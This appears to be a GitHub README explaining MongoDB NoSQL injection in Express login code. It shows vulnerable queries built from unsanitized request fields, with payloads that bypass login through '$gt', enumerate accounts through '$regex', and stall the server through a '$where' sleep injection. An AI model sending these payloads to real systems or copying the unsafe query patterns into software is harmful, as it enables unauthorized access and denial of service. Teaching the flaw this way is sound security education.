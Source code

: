 

### MONGODB INJECTION VULNERABILITY CODE SMELLS LIKE BELOW


## if you check login like this without encrypting password we are in

    const {email , password} = req.body

        if(!email || !password) return res.json({error : "invalid data"})

        let identifyUser ;

        try{
            identifyUser = await userModel.findOne({email:email,password:password})
        }
        catch(err){
            return res.json({error : "something went wrong"})
        }

        
        if(identifyUser){

            //generate token other stuffs
            return res.json({msg:"you hacked it"})
        }


## INJECTION VALUES

        {
            "email":{
                "$gt":""
            },
            "password":{
                "$gt":""
            }
        }


        {
            "email":{
                "$regex":".*"
            },
            "password":{
                "$gt":""
            }
        }
[lack of proper sanitization may lead to leverage in lots of authorization issues]

### eventhough you encrypt your password and store , attacker can use regex to validate the name and bruteforce the password

        [codeSNIPPETS]
            try{
                identifyUser = await User.findOne({email:email})
            }
            catch(err){
                const error = new httpError('try again later',500)
                return next(error);
            }
            //decoding the password and comparing
            let isPasswordValid = false
            try{
            isPasswordValid= await bcrypt.compare(password,identifyUser.password)
            }catch(err){
                let error = new Error('failed to login user');
                error.code = 400
                return next(error)
            }

        INJECTION VALUE

        {
            "email":{
                "$regex":"t.*"
            },
            "password":"thomas"
        }


#### use of where clause leads to usage of many functions like sleep leads to dos of the server


        let {email , password} = req.body

        if(!email || !password) return res.json({error : "invalid data"})

        let identifyUser ;

        console.log(email)
        
        const query = {$where:"this.email == '"+email+ "' "}
        
        console.log(query)

         //  {$where:"this.email == '' ; sleep(5000);''"}

        try{
            identifyUser = await userModel.findOne(query)
        }
        catch(err){
            console.log(err)
            return res.json({error : "something went wrong"})
        }

## injecting value

    {
        "email":"';sleep(50000);'",
        "password":"thomas"
    }



